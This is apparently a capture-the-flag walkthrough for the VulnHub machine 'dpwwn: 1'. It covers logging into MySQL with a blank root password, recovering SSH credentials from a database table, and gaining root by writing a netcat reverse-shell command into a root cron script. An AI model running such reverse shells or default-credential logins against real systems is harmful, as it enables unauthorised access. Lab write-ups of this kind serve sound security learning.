








<h1 align="center" style="font-size:30px;">
   
  <a href="https://www.vulnhub.com/entry/dpwwn-1,342/">dpwwn: 1</a>
   
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/debashisace">  debashisace</a></h4>

## Nmap

We can see that there is a SSH and HTTP service running. And other then that we have a MySql service running.

Since MySql is an unusal service we'll just start with that.

***

## MySQL

We can try to connect to the mysql service but obviously we need username and password for that.

I first tried to login with random usernames and blank password.

Then I tried to use the common creds like `admin:admin` or `root:admin` or `root:` and the last one worked i.e username - `root` and blank password.

Since I was in the DB I started to look for anything interesting and I found a DB named `SSH` 😏😏. It had a table named `users` 😏😏, which had SSH creds. 😏😏

`mistic:testP@$$swordmistic`

***

## Privilege escalation

Since we are in the system let's just run the enumeration script and see if we can find anything good.

I didn't find any SUID but I found a file named `logrot.sh` in the home directory which was set to run in a cronjob as `root`.

Since this file will be running as root in cron we can exploit it in multiple ways. We can send a reverse shell or we can add another user with root privs etc.

Simple method is to do `echo "nc -e /bin/bash IP PORT" > logrot.sh` and then start a listner to get a reverse shell.

Now just start the listner with `nc -nlvp PORT` and wait to get the shell.

And now get the flag

I am not sure what are these but there are some numbers attach to the flag in the end maybe they some extra task or something but I ain't doing it. 😜😜

***

Thanks to [@debashisace](https://twitter.com/debashisace) for this beginner level machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
